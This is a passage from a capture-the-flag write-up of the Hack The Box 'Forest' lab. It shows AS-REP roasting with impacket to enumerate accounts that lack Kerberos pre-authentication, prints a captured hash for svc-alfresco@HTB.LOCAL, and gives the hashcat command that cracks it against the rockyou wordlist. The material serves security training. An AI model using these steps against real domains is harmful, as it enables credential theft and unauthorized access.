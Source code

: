 ![image.png](FOREST%20114948dbd501456c95254c4d0cfbb98c/image%209.png)

I will now go to try the ASREPROAS.

A cool thing that can be done with impacket-getnpusers that many people don’t know is that you don’t have to provide a name by default. If you run the command without a user it will find all users with pre-authentication disabled.

Meaning I could have potentially done this from the start without needing to find any of usernames. This doesn’t always work but by default it will often work like this. Similarly when using getUserSPN from impacket you can also find all kerberoastable users if you don’t provide a username.

![image.png](FOREST%20114948dbd501456c95254c4d0cfbb98c/image%2010.png)

Now I got a TGT, I’m going to try and break it.

```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ebf023beec7f9b8d16d146b3b43f7db3$091335024cf58e25feaaae14854c16932b5719b30f3ca0e210d21eae801b3f2d32de8721332407550d09725b2bb257a458daae0a1d124a74e222254c0dd0787a2b1cf5e2b10307bea6c1d9de6c2568cc5e5bfc7b7dc4d3da2877f929b2bf4159ea1f248af4f75759405dde89e9bbf91281b4a410ef4b57b54cd3c6c6dd67aec1310537e5d212b8d0650424724cae3d5c5d61718000b5be9bea6804db05ae96310b9d175ee2d7f5a1a4d7c05dbf7cc28aa5af9beed7c6f4759a386409443f4ef4bfed8d4e8ee37b266b2c3b799aac3b965b73b3d7e76088f0a67fe6e936343063656f6b66a27d
```

![image.png](FOREST%20114948dbd501456c95254c4d0cfbb98c/image%2011.png)

I used the following command to crack it, I used rockyou because in most of these boxes it is often the better wordlist to use.

```
hashcat -m 18200 -a 0  '$krb5asrep$23$svc-alfresco@HTB.LOCAL:ebf023beec7f9b8d16d146b3b43f7db3$091335024cf58e25feaaae14854c16932b5719b30f3ca0e210d21eae801b3f2d32de8721332407550d09725b2bb257a458daae0a1d124a74e222254c0dd0787a2b1cf5e2b10307bea6c1d9de6c2568cc5e5bfc7b7dc4d3da2877f929b2bf4159ea1f248af4f75759405dde89e9bbf91281b4a410ef4b57b54cd3c6c6dd67aec1310537e5d212b8d0650424724cae3d5c5d61718000b5be9bea6804db05ae96310b9d175ee2d7f5a1a4d7c05dbf7cc28aa5af9beed7c6f4759a386409443f4ef4bfed8d4e8ee37b266b2c3b799aac3b965b73b3d7e76088f0a67fe6e936343063656f6b66a27d' /usr/share/wordlists/rockyou.txt
```

